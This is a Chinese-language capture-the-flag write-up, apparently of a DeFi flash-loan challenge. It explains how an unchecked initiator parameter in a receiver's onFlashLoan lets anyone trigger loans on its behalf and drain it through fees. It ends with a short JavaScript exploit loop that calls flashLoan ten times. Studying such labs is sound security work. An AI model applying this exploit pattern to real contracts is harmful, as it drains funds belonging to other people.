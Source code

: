 ```js
    }
```

调用的接口:[ERC-3156: Flash Loans (ethereum.org)](https://eips.ethereum.org/EIPS/eip-3156)

该合约以固定的 1 ETH 费用提供闪电贷，然后闪电贷后，合约验证其更新的余额是否超过原始余额加上 1 ETH 费用

对于FlashLoanReceiver.sol

```js
function onFlashLoan(  
    address,  
    address token,  
    uint256 amount,  
    uint256 fee,  
    bytes calldata  
) external returns (bytes32) {  
    assembly { // gas savings  
        if iszero(eq(sload(pool.slot), caller())) {  
            mstore(0x00, 0x48f5c3ed)  
            revert(0x1c, 0x04)  
        }  
    }  

    if (token != ETH)  
        revert UnsupportedCurrency();  

    uint256 amountToBeRepaid;  
    unchecked {  
        amountToBeRepaid = amount + fee;  //偿还贷款 + 1 ETH fee。  
    }  
    \_executeActionDuringFlashLoan();  

    // Return funds to pool  
    SafeTransferLib.safeTransferETH(pool, amountToBeRepaid);  

    return keccak256("ERC3156FlashBorrower.onFlashLoan");  
}
```

我们看方法中的参数, 可以发现第一个`address`未被使用,并且这是闪电贷发起账户的msg.sender

并且对于上述两个合约代码,我们可以发现都没对函数进行检查

那么就导致了访问控制的问题了,我们可以用此账户来代表FlashLoanReceiver(接收闪电贷的账户)执行交易

那么我们就可以用FlashLoanReceiver中的msg.sender去执行10次onFlashLoan函数

Exp:

```js
// 10 transactions  
const ETH = await pool.ETH();  
for(let i = 0; i < 10; i++){  
    await pool.connect(player).flashLoan(receiver.address, ETH, 0, "0x"); //"0x" 作为一个空的十六进制字符串，只是为了符合flashLoan方法中的data  
}
```
